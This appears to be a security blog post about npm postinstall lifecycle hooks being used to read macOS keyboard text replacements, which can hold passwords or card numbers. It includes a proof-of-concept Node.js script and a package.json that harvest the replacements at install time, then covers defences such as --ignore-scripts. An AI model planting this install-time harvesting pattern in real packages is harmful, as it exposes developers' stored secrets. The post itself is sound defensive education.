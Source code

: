 ```yaml
---
title: 'Using insecure npm package manager defaults to steal your macOS keyboard shortcuts'
description: >-
  Node Package Manager (npm) provides a set of scripts for developers and package maintainers to maintain the life cycle events of a package.
type: Blog
date: '2023-06-28'
tag: security
status: published
canonical_url: https://snyk.io/blog/using-insecure-npm-package-manager-defaults/
---
```


> This article is originally available at [Snyk.io][snyk-blog].

Malicious npm packages and their dangers have been a frequent topic of discussion — whether
it’s [hundreds of command-and-control Cobalt Strike malware packages][cobalt-strike],
[typosquatting][typosquatting], or general malware published to the npm registry
(including PyPI and others). To help developers and maintainers defend against these security
risks, [Snyk published a guide to npm security best practices][snyk-best-practices].

All that said, the following attack scope, which Yagiz Nizipli alerted long-time maintainers to,
and the real-world risk related to data compromise are a great example of how important it is to
minimize the risks of arbitrary command execution with package managers, such as those employed
via npm’s postinstall lifecycle hooks.

## Life cycle scripts of npm

Node Package Manager (npm) provides a set of scripts for developers and package maintainers to
maintain the life cycle events of a package. These scripts provide significant value to
developers by enabling them to perform various tasks or configurations as part of the package
installation process. For example, with `postinstall` scripts, developers can automate tasks such
as building assets, setting up environment variables, running migrations, or any tasks that can
be automatically executed.

The `scripts` property of a `package.json` file defines the commands triggered by the package's
lifecycle and the dependent of the package you're developing. As of today, `npm` supports
a limited number of life cycle scripts in any scripts property of a package.json file.

For simplicity, the rest of this article will focus on the `postinstall` command. However, all concepts provided by this article also apply to other life cycle operations.

## Past security incidents

There have been several high-profile incidents that had a real-world impact on JavaScript developers, including:

- The [cross-env](https://iamakulov.com/notes/npm-malicious-packages/) security incident discovered by Oscar Bolmsten.
- The [eslint-scope security compromise](https://eslint.org/blog/2018/07/postmortem-for-malicious-package-publishes/).
- The [event-stream spear-headed attack](https://snyk.io/blog/a-post-mortem-of-the-malicious-event-stream-backdoor/) on cryptocurrency application developers.

Many other JavaScript and Node.js security incidents are curated on the
[Awesome Node.js Security repository][awesome-nodejs-security].

## Data-at-rest Security

Security professionals identify the protection of assets when the data is stored or at rest by
`Data-at-rest`, as opposed to when it is in transit or being processed. It focuses on protecting
the sensitive information stored in databases, file systems, or persistent storage. Data-at-rest
security aims to prevent unauthorized access, disclosure, or data tampering while it is dormant.
Various measures are available to ensure data-at-rest security, such as:

- **On-demand decryption**: Decrypting only the data required to perform the current task and storing the rest of the data encrypted to prevent forbidden access.
- **Access control logic**: Validating the requester's identity through a mechanism such as a password, two-factor authentication, or biometrics provided by an operating system (such as FaceID) — making it possible to limit the exposure of the resource to unwanted people.

### Attack surface of a developer

Industry best practices force us to use and follow principles to develop applications. These best practices offer many advantages when working with different teams and developers but also increase the attack surface.

What sort of data is lying around unencrypted in a developer machine?

- Environment variables through plain text files, such as .env (available for consumption through the dotenv package).
- Configuration files for projects stored as a JSON file, such as config.json.
- SSH keys for accessing Github/Gitlab, which are available in the ~/.ssh folder.
- And... **macOS Keyboard Shortcuts**!

## macOS Text Replacements

macOS, by default, has a feature called `Text Replacements` hidden inside the system preferences
applications. This feature allows users to quickly replace a word with another word. Just
recently, I've learned that a developer from a well-known company was using text replacements
to replace `@card` keyword with their credit card information. Even though the credit card number
without the expiration date or CVV does not expose your money to outsiders, it adds an attack
surface for them to exploit.

![macOS Text Replacements](/content/macos-text-replacements.png)

> Text Replacements feature is available through System Preferences application, under the `Keyboard` menu item. 

## Exfiltrating keyboard text replacements 

Keyboard shortcuts are stored under `defaults`, which corresponds to a filesystem backed `.plist`
file somewhere in your local folder. Executing the following command will return your configured
text replacements, which are also available through the System Preferences application.

Remember that the following code does not require `sudo` access and can be executed by any
process in your computer.

```bash title="Reading text replacements"
> defaults read -g NSUserDictionaryReplacementItems
(
  {
    on = 1;
    replace = "@ssh-key";
    with = "my-secret-password";
  }
)
```

The same command can be executed through `execSync` in Node.js, and parsed without any hassle,
through the `postinstall` life cycle operation supported by the `npm` package manager.

The following is an example of a Node.js script that can be employed by malicious actors to
access macOS text replacements and exfiltrate sensitive data:

```js title="Retrieve text replacements"
import { execSync } from 'node:child_process'

const decoder = new TextDecoder()
const res = execSync('defaults read -g NSUserDictionaryReplacementItems')
const text_replacements = decoder.decode(res)

console.log(text_replacements)
```

To make sure the above code runs when this package is installed, we will update the package
manifest file as follows `package.json`:

```json title="Exploiting the postinstall command"
{
  "name": "my-useful-library",
  "version": "1.0.0",
  "description": "",
  "main": "index.js",
  "type": "module",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1",
    "postinstall": "node ./retrieve.js"
  },
  "keywords": [],
  "author": "",
  "license": "ISC"
}
```

When distributed through npm, and downloaded by a developer, this library will directly execute
our custom script to retrieve and process the keyboard replacements. If you aren’t careful,
it's easy to miss the line containing > node ./retrieve.js.

```bash title="NPM install flow"
➜  vulnerable npm i

> my-useful-library@1.0.0 postinstall
> node ./retrieve.js

up to date, audited 1 package in 192ms

found 0 vulnerabilities
➜  vulnerable
```

## Protection

What can you do as a developer to mitigate the security risks of malicious npm packages and
general security concerns of arbitrary command execution from packages in your dependency tree?

### Ignore scripts on npm package installations

Protecting yourself from packages that leverage `postinstall` scripts is possible. npm
provides `--ignore-scripts` configuration when installing packages.

```bash title="Ignore all scripts"
➜  npm i --ignore-scripts
up to date, audited 1 package in 124ms
found 0 vulnerabilities
```

### Use safe npm defaults

NPM has a configuration file called [.npmrc](npmrc-documentation). You can change the default
preferences using the `npm` CLI to ensure secure defaults:

```bash title="Ignore all scripts by default"
➜  npm config set ignore-scripts true
➜  npm i
up to date, audited 1 package in 126ms
found 0 vulnerabilities
```

### Secure storage

Most importantly, you should never store sensitive information in plain text. If you have to
store it in plain text due to other requirements, you should always make the resource
accessible through multi-factor authentication.

---

**Note**: Originally, I've written this article on [Snyk blog][snyk-blog] published by Liran Tal.

[awesome-nodejs-security]: https://github.com/lirantal/awesome-nodejs-security
[cobalt-strike]: https://snyk.io/blog/snyk-200-malicious-npm-packages-cobalt-strike-dependency-confusion-attacks/
[typosquatting]: https://snyk.io/blog/typosquatting-attacks/
[snyk-best-practices]: https://snyk.io/blog/ten-npm-security-best-practices/
[npm-scripts-documentation]: https://docs.npmjs.com/cli/v9/using-npm/scripts
[npmrc-documentation]: https://docs.npmjs.com/cli/v9/configuring-npm/npmrc
[snyk-blog]: https://snyk.io/blog/using-insecure-npm-package-manager-defaults/
